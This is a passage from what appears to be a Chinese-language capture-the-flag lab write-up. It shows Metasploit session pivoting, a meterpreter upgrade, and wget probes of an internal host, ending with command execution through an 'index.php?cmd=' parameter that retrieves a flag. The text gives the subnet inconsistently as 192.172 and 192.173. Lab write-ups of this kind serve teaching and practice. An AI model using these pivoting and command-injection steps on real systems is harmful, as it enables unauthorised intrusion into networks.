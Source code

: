 通过网卡、路由、ARP 成功发现最深层次的内网 `192.172.85.0/24`

```bash
# 通过网卡、路由、ARP 发现新子网 192.173.85.0/24
$ sessions -c "ifconfig" -i 6,7,8

# portscan through pivot
# 将会话 8 （IP地址为192.172.84.5）升级为 meterpreter shell
$ sessions -u 8

# 新的 meterpreter shell 会话编号此处为 10
$ sessions -i 10
```

可以直接在 meterpreter shell 中直接访问 IP 地址来进行枚举测试

```bash
# 利用跳板机 192.172.84.5 的 meterpreter shell 会话「踩点」最终靶标
$ curl http://192.173.85.2

# 发现没安装 curl ，试试 wget
$ wget http://192.173.85.2

# 发现没有命令执行回显，试试组合命令
$ wget http://192.173.85.2 -O /tmp/result && cat /tmp/result
```

![flag_hint](img/flag_hint.png)

得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`

```bash
# 发现 get flag 提示
$ wget 'http://192.173.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result"
```

```
得到flag5:
flag-{bmhd4c8d966-2dcf-43dc-64a8-42ff2a3f7a6c}
```

![得到flag5](img/得到flag5.png)
